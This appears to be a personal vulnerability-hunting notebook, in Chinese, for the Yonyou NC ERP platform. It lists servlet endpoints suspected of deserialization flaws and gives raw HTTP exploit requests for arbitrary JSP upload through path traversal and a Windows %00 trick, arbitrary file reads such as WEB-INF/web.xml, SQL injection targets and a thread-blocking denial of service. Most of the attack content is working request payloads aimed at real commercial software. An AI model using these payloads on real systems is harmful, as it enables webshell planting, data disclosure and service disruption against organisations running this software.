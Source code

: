 ## 反序列化

http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserQueryServiceServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserSynchronizationServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserAuthenticationServlet
http://127.0.0.1:8081/service/~baseapp/nc.document.pub.fileSystem.servlet.UploadServlet	需要分析 看有没其他漏洞
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserQryServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserAuthenticationServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAContactsFuzzySearchServlet
http://127.0.0.1:8081/service/~baseapp/nc.message.bs.NCMessageServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.MxServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.monitor.MonitorServlet
http://127.0.0.1:8081/service/~aert/uap.pub.ae.model.handle.ModelHandleServlet
http://127.0.0.1:8081/service/~cc/nc.bs.logging.config.LoggingConfigServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DownloadServlet  需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~uapbs/uap.pub.dc.fileSystem.servlet.DownloadServlet			需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DeleteServlet
http://127.0.0.1:8081/servlet/~ic/uap.framework.rc.controller.ResourceManagerServlet

FileUploadServlet.class    	需要分析	看有没其他漏洞

FileReceiveServlet.class	需要分析	看有没其他漏洞

FileParserServlet.class		需要分析	看有没其他漏洞

FileManageServlet.class		需要分析	看有没其他漏洞



ContactsQueryServiceServlet.class  

ContactsFuzzySearchServlet.class

ConfigResourceServlet.class  逻辑漏洞-用户验证有缺陷

ActionHandlerServlet.class

## 任意文件上传

UploadFileServlet.class

```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"
	
上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
	
http://127.0.0.1:8081/mp/uploadFileDir/test.jsp
```

SaveXmlToFileServlet.class   但是只能是.xml文件		可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

```
POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=2/../../../../../../../../../../../1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
Accept-Encoding: gzip, deflate
Content-Length: 177

--024ff46f71634a1c9bf8ec5820c26fa9
Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"

2flYX0pZdqd9hXwFoszSIhjGiI9
--024ff46f71634a1c9bf8ec5820c26fa9--
```


SaveImageServlet.class       但是只能是.png文件	可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

	POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp HTTP/1.1
	Host: 127.0.0.1:8081
	Content-Type: application/octet-stream
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Length: 171
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	
	漏洞利用的是windows特性%00， 如果windows版本过高不可能成功

webrt/nc.uap.lfw.core.servlet.LfwFileUploadServlet   文件不知道为啥没传成功，估计要两个磁盘

```
POST /servlet/~webrt/nc.uap.lfw.core.servlet.LfwFileUploadServlet HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
Accept-Encoding: gzip, deflate
Content-Length: 212


--024ff46f71634a1c9bf8ec5820c26fa9
Content-Disposition: form-data; name="file"; filename="/../../../../../../../../../../../../../ZOScC.asp"

2flYX0pZdqd9hXwFoszSIhjGiI9
--024ff46f71634a1c9bf8ec5820c26fa9--
```



## 任意文件读取	

OutputImageServlet.class  抽象代码， 将输入流作为文件内容返回给客户端

	POST /portal/pt/servlet/outputImageServlet/doPost?filename=/../../../../2000000&imagetype=png&pageId=login HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
	Connection: close
	Cookie: JSESSIONID=695A5D8B1C41BA3F8D74495FC1D37B7E.server
	Accept-Encoding: gzip, deflate
	Content-Length: 6
	Content-Type: application/data
	
	123123

http://127.0.0.1:8081/servlet/~maportal/;/com.yonyou.maportal.bs.padplugin.controller.DownloadServlet?filename=../../WEB-INF/web.xml

FindWebResourceServlet.class  不能../ 
	/NCFindWeb?service=IPreAlertConfigService&filename=
	

## sql注入

MdxQueryServlet.class

MARosterPhotoServlet.class  已有

## 综合漏洞

ManagerServlet.class  不是用友的 是tomcat的
	
	

## 拒绝服务

upass/nc.search.ui.servlet.ClusterStateServlet?opt=test
	阻塞线程60秒
